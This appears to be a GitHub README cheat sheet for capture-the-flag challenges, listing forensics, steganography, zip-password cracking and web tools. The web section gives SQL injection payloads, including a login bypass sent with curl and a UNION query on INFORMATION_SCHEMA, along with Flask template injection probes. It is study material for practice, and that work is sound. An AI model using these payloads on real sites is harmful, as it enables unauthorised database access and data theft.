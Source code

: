 # CTF tools & Resources
This Repo Contains Write-UPs for all Tasks 
HERE ARE SOME EXTREMELY USEFUL TOOLS AND COMMANDS
### [Forensics, Linux Tools and Commands](#linux)
### [Web](#web)
### [Misc](#misc)

## <a name = "linux">Basic linux tools and Commands</a>
* binwalk -e <filenam> : //Extracts hidden files
* steghide extract -sf <filename> : //Extracts hidden text in the image
* xxd <file name> : //Prints the Hex version of file
* grep "element" //finds the element
* strings <filename> // gives the strings hidden in the file
* hexedit <filename> //hexeditor
* java -jar stegsolve.jar 
* pngcheck <filename> //checks if the png file is broken
* tar -xvf <filename> // untars the tar files
* cat temp.txt | cut -d'(' -f2 | sort -n | cut -d"'" -f2 | tr -d "\n" ; echo      
 // used this command to obtain the flag from the java file having flag characters written in an scrambled order 
* fcrackzip -u -l 10-11 -c a1 -p IEC2019000 findME.zip
  fcrackzip -u -D -p rockyou.txt crackme.zip
// this command helps us to find the password to a zip. -u : unzip -l: range of length -c: type of elements a1 means alphabets and numbers -p:sample password 
* ltrace ./file     is a helphul command to see the functioning of a program
also use strace
* cat /proc/(process id)/             
we can see all files running in the process with given process id.
* exiftool for meta data
* use tcpflow -r file  for pcap
* zsteg :- another great stego tool
* john the ripper :- tool for password cracking

## <a name = "web">Web</a>
### SQL injections
* curl "url" --data "username=admin&password='+or+1=1--" && echo 
this command will find the information to username admin stored in database (SQL injection).
* try admin'-- for SQLi.
* '||( SELECT secret FROM user WHERE username = 'a' )||'
* 1 union select 1,TABLE_NAME, 3,4 from INFORMATION_SCHEMA.TABLES     input this code in the info bar of a website for sql attack using injection.
* Basic Injection  if there is a hidden info in the data base then to leak the data type 'OR''=' in the info bar.
----------------------------------------------------------------------------------------------------------------------------------------------------------------
*  Postman great tool for web challs
* Robots -->>> url/robots.txt (shows hidden info)
* If a website uses flask, then try using {{ 7*7 }}to see its working, then use {{ config }}, {{request}},{{session}}, {{g}} in the text fields.
* To post requests to php from terminal use curl -X POST "url"

## <a name = "misc">Misc</a>
* Esoteric languages(pikalang, 2dfuck, brainfuck) use tio.run website, Malboge an esoteric language that looks like base 85.
*  git show -1 filename.txt > to compare against the last revision of file
   git show -2 filename.txt > to compare against the 2nd last revision of file
* Use this site for substitution https://quipqiup.com/
* Detect the DMFT Tools http://dialabc.com/sound/detect/index.html
* Online Stegnographic Decoder :- https://futureboy.us/stegano/decinput.html

